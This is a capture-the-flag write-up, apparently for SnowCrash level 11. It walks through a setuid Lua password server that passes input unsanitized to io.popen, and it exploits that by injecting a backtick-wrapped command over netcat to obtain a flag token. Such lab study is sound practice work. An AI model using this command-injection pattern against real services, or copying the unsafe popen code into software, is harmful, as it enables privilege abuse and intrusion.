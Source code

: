 # Level11
```bash
ls -la
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
```
```bash
./level11.lua
output:
lua: ./level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?
```

# address in use
```bash
netstat -tulpn | grep LISTEN
# ouput
(No info could be read for "-p": geteuid()=2011 but you should be root.)
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::4646                 :::*                    LISTEN      -
tcp6       0      0 :::4747                 :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::4242                 :::*                    LISTEN      -
```
we can connect to 127.0.0.1 on port 5151
read the file:
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

*io.popen can excute command*

nc 127.0.0.1 5151
Password: `getflag` > /tmp/flag
cat /tmp/falg
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
